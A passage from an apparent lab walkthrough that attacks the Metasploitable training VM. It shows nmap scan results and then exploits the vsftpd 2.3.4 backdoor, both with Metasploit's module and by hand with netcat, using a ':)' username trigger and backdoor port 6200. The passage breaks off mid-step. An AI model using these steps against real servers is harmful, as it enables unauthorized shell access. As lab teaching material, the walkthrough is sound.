 ``` ruby Nmap Output
1524/tcp open  shell       Metasploitable root shell
2049/tcp open  nfs         2-4 (RPC #100003)
2121/tcp open  ftp         ProFTPD 1.3.1
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp open  vnc         VNC (protocol 3.3)
6000/tcp open  X11         (access denied)
6667/tcp open  irc         Unreal ircd
6697/tcp open  irc         Unreal ircd
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
8787/tcp open  drb         Ruby DRb RMI (Ruby 1.8; path /usr/lib/ruby/1.8/drb)
MAC Address: 00:0C:29:FA:DD:2A (VMware)
``` 
<p>Later on, we started to exploit the ports one by one using ***`Metasploit`***. Before we started to exploit, we did a 
google search on each version to identify whether we could be able to exploit them.<p />

####Note:
<p>A Vulnerability Assessment can be done on the corresponding target ip to identify whether the running serives are vulnerable to exploit.<p />
<p>Vulnerability Assessment Tools:<p />
(1)Nessus
(2)OpenVAS
(3)ImmunityCanvas
(4)Qualys

##FTP Backdoor
####1.Gaining Shell via Metasploit
<p>The Virtual machine was found to be running a ***`FTP`*** service with version ***`vsftpd 2.3.4`*** which was vulnerable to a backdoor 
command execution. We ran the metasploit ***`msfconsole`*** in kali linux and made a search on ***vsftpd***  which gave us exploit module 
for the backdoor command execution for the specific ***vsftpd 2.3.4***
``` ruby Vsftpd 2.3.4
msf > search vsftpd
Matching Modules
================
   Name                                  Disclosure Date  Rank       Description
   ----                                  ---------------  ----       -----------
   exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  VSFTPD v2.3.4 Backdoor Command Execution
```
Kick this module into the msfconsole to make a backdoor to gain a interactive shell.

{% img http://i.imgur.com/QBxOc7w.png %}

Finally we gained the shell with the help of metasploit vsftpd backdoor module.
####2.Gaining shell via Netcat
<p> We can also backdoor ftp by running up `Netcat` (Reads and writes to TCP and UDP network connections) to gain a shell.<p />
<p>Initially run this command in separate terminal to make a connection to `FTP` port `21` via USER `anyname:)` along with the smile `:)` and PASS with `anypassword`
<p />
``` ruby Netcat FTP 
root@Hacker:~# nc 192.168.2.7 21 -v
192.168.2.7: inverse host lookup failed: Unknown server error : Connection timed out
(UNKNOWN) [192.168.2.7] 21 (ftp) open
220 (vsFTPd 2.3.4)
USER sellva:)
331 Please specify the password.
PASS pass
```
<p>Then open up a new terminal without closing the above running terminal, type in the nc command show below. Where Port `6200` is a Backdoor port for the ftp